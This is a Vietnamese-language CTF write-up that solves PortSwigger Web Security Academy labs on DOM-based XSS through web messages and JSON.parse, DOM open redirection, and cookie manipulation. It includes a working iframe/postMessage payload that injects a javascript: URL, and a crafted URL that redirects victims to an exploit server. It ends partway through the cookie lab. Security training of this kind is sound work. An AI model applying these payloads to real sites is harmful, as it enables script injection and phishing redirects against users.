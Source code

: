 <img width="911" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/91641033-543d-49ab-8123-9123478f2e2d">

### Lab: DOM XSS using web messages and JSON.parse

>This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

Tương tự, view-source ta thấy đoạn sau:

<img width="604" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/5f10493b-2eb0-4f8a-9d62-72f39979dc19">

Nhìn sơ qua thì nó tạo một ACMEplayer chứa iframe rồi truyền data vào. Nhìn vào 3 type ta thấy với type là `load-channel` ta có thể lợi dụng chèn vào url `pseudo-protocol`:

```html
<iframe src="https://0a9a0063030990bf869bbc0800ea00b4.web-security-academy.net/" id="ifr" onload=send()></iframe>
<script>
function send() {
    ifr.contentWindow.postMessage('{"type":"load-channel", "url":"javascript:print()"}', "*");
}
</script>
```

<img width="917" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/d2f05569-a791-4b3c-a31c-3c090bd6610e">

### Lab: DOM-based open redirection

> This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.

Click vào xem các bài đăng, ta thấy đoạn mã của button `Back to Blog` sau:

<img width="904" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/52cfec58-b75d-4e4c-8360-d01decaf632c">

Đoạn mã này sẽ check nếu có url để redirect thì sẽ trở về url đó còn không thì trở về "/".

<img width="889" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/1ead563c-8c9a-4bcd-9abd-d0bebd4a4c41">

Đề bài yêu cầu hơi lú, chỉ cần enter cái này trên browser là solve XD
```
https://0a980047036c34f0d28e408000f600ab.web-security-academy.net/post?postId=8&url=https://exploit-0aeb002103c93466d2dd3f6101fb0064.exploit-server.net/exploit
```

### Lab: DOM-based cookie manipulations

> This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages.

Vào xem sản phẩm, ta thấy đoạn mã sau:

<img width="701" alt="image" src="https://github.com/rayinaw/ctf-challenges/assets/108481122/e80f8d10-74bc-431e-a2e9-c6909af816de">
